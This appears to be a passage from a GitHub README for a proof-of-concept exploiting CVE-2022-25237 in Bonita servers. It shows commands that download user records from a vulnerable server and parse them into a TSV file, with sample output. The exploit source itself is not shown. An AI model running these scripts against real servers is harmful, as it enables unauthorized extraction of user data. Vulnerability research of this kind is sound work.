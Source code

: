 ```bash
bash ./dnl-sys-user.sh
```

#### Expected Results

- Retrieved data is stored in the folder `./output/sys/user`.
- Downloads all  records, generating files like `user-123456.json`.
- The number of retrieved records is limited by the value set in the `BN_RQ_LIMIT` variable in the `_config.sh` file. The default value is `5`, which is sufficient to retrieve a sample of the data.

**Example of output**

```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Downloading Users
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Bonita Server:          * * *
Bonita Version:         7.11.1
Cookie Conf:            Set
Session Status:         Alive
User Profiles:          User
CVE-2022-25237:         Infected
Requests Limit:         5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Requesting data
                Request: 5
Done
```

- The actual domain name of the server is obscured using `* * *` characters for security purposes. 
- `Request Limit: 5` indicates that the script is configured to retrieve up to `5` records.
- `Requests Retrieved: 5` confirms that `5` records were successfully retrieved.

#### Additional processing

By using scripit `./poc/extract-users-tsv.sh` downloaded data can be easily parsed and saved in tabular format for easier usage. To execute the script `extract-users-tsv.sh` from the `./poc` directory using a Bash command, you can use the following command:

```bash
bash ./extract-users-tsv.sh
```

**Example of output**

```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Parsing Users list
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Processing 5 files...
Total records: 5
Processing complete
```

- Extracted data is stored in the folder `./output/users.tsv`.
